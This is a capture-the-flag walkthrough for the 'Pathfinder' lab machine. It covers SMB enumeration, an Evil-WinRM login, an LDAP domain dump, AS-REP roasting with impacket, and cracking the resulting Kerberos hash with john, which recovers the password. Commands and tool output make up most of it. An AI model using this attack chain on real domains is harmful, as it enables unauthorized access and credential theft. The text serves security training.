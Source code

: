 # Pathfinder

## Ifconfig

```
inet 10.10.14.50  netmask 255.255.254.0
inet6 fe80::e5b5:1850:41bc:c2e3
```

## Nmap

> sudo nmap -sC -sV -A 10.10.10.30 | tee [nmap.log](./nmap.log)

- No http server => so no need to run gobuster and nikto

## Smbclient

```
username: sandra
password: Password1234!
```

- List host sharename by sandra user

> smbclient -U sandra -L 10.10.10.30

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
SYSVOL          Disk      Logon server share 

SMB1 disabled -- no workgroup available
```

## Install [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) (Windows Remote Management)

> gem install evil-winrm

- Get into the sandra user

> evil-winrm -u sandra -p "Password1234!" -i 10.10.10.30

```
Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\sandra\Documents>
```

## Ldapdomaindump

A tool to dump domain info into html format via LDAP

> ldapdomaindump -u MEGACORP\\sandra -p "Password1234!" -o ldapinfo 10.10.10.30 --no-json --no-grep

*Install html2text to view these [html files](./ldapinfo) in text format*

> text2html [domain_users.html](./ldapinfo/domain_users.html)

```
                                          Remote         Domain  01/25/  09/22/  09/22/21  NORMAL_ACCOUNT,    03/21/20
svc_maint     svc_maint     svc_bes       Management     Users   20 22:  21 14:  14:02:51  DONT_REQ_PREAUTH   00:16:54   1104  
                                          Users                  05:12   02:51
```

Found `DONT_REQ_PREAUTH` in SAM svc_bes

## Impacket-GetNPUsers

> impacket-GetNPUsers MEGACORP.LOCAL/svc_bes -dc-ip 10.10.10.30 -request -no-pass -format john > impacket_john.log

- Get only these content below in [impacket_john](./impacket_john.log) file and copy into [another place](./john.log)

```
$krb5asrep$svc_bes@MEGACORP.LOCAL:6f34b4d9e2d1c847e707037f4ae84354$5e98775b20672d33fd91a830468cd4f563eab370430227587388cd255027e794bec7bf86d9a830fb9ba6e5b4e2e0e31c5d6ac09cb681ae9915e7f973356947249ee7b0974d152e860d070e2f5d037417bca427c2efbc7efa79016ae8460657211157dc03d213bd4382cb145d665cae3bef5fa08817d3bdd853e24fb52516b64498a17c7385e5beed949ac1ad601b51ef7f1ea5617e5a11afda6b66f5353757ecf544280be47d2788f5b3a83de80f072602a8eb7be6c692fdd8e733d2406bde55fe870c1986eb7ee86d121e84fd280a6dfee6cc00c19d46f1a1e698d0920c54c0e439e9e3b774b535ecd7369f7bf380bd
```

- Get the rockyou wordlists

> locate rockyou

```
/usr/share/hashcat/masks/rockyou-1-60.hcmask
/usr/share/hashcat/masks/rockyou-2-1800.hcmask
/usr/share/hashcat/masks/rockyou-3-3600.hcmask
/usr/share/hashcat/masks/rockyou-4-43200.hcmask
/usr/share/hashcat/masks/rockyou-5-86400.hcmask
/usr/share/hashcat/masks/rockyou-6-864000.hcmask
/usr/share/hashcat/masks/rockyou-7-2592000.hcmask
/usr/share/hashcat/rules/rockyou-30000.rule
/usr/share/john/rules/rockyou-30000.rule
/usr/share/wordlists/rockyou.txt.gz
```

Then get unzip tje rockyou.txt.gz

> cd /usr/share/wordlists

> sudo gzip -d rockyou.txt.gz

- Use john to find the password

> john john.log --wordlist=/usr/share/wordlists/rockyou.txt

```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Sheffield19      ($krb5asrep$svc_bes@MEGACORP.LOCAL)
1g 0:00:00:42 DONE (2021-09-23 08:50) 0.02357g/s 250048p/s 250048c/s 250048C/s SideKick1234..Shanelee
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Found the password is *Sheffield19*


